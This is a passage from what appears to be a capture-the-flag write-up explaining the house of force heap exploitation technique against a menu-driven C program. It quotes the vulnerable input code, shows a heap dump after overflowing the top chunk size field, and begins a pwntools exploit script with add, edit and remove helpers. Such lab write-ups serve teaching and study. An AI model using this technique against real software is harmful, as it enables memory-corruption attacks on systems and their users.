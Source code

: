 We somehow overwritten the `top_chunk` size field and it seems to now have a value of `0x42424242424242` which the `B` we gave as the `name`. But the size of the chunk we allocated as depicted by the `itemlist` still appears ti be `5`. Why this happens?


Let's take a closer look:-


```C
    read(0, indexbuf, 8);
    index = atoi(indexbuf);
    if (itemlist[index].name) {
      printf("Please enter the length of item name:");
      read(0, lengthbuf, 8);
      length = atoi(lengthbuf);
      printf("Please enter the new name of the item:");
      readsize = read(0, itemlist[index].name, length)
```

So, first we give the `size` of the chunk we need to allocate so that it gets changed. Now, next it tends to take input but with the size given earlier, this is where overflow happens, the original size of the chunk will be `0x5` which in default be `24`(malloc, hah) then again when we change the item, specfiying the size field of the item itself.


Then, we give the `size` of 30, which allows us to givw input of size of 30 but the original chunk has size of 24, this will let us give extra 6 bytes of data resulting in `top_chunk` size field overwritten by those 6 bytes of data.


Using `pwntools` when we interact to the program and `add` the item of 24 size and then we change the item with of size 32 and give `"A"*24 + p32(0xdeadbeef)`, we get to see the size field of `top_chunk` has been overwriteen.

```r
0x1b02250	0x0000000000000000	0x0000000000000021	........!.......
0x1b02260	0x0000000000400896	0x00000000004008b1	..@.......@.....
0x1b02270	0x0000000000000000	0x0000000000000021	........!.......
0x1b02280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x1b02290	0x4141414141414141	0x00000000deadbeef	AAAAAAAA........	 <-- Top chunk
```

Awesome, but this is where actual house of force exploitation technique begin to get an arbitrary overwrite. 

# Getting an Arbitrary Overwrite

First of all we need to make the top_chunk `size` value to largest unsigned long integer which is `-1`. Using the `pwntools` we change the item and then make the top_chunk size `-1`.

```py
from pwn import *


def add(size, data):
    p.sendlineafter("choice:", "2")
    p.sendlineafter("name:", str(size))
    p.sendafter("item:", data)

def edit(idx, size, data):
    p.sendlineafter("choice:", "3")
    p.sendlineafter("item:", str(idx))
    p.sendlineafter("name:", str(size))
    p.sendafter("item:", data)

def remove(idx):
    p.sendlineafter("choice:", "4")
    p.sendlineafter("item:", str(idx))

```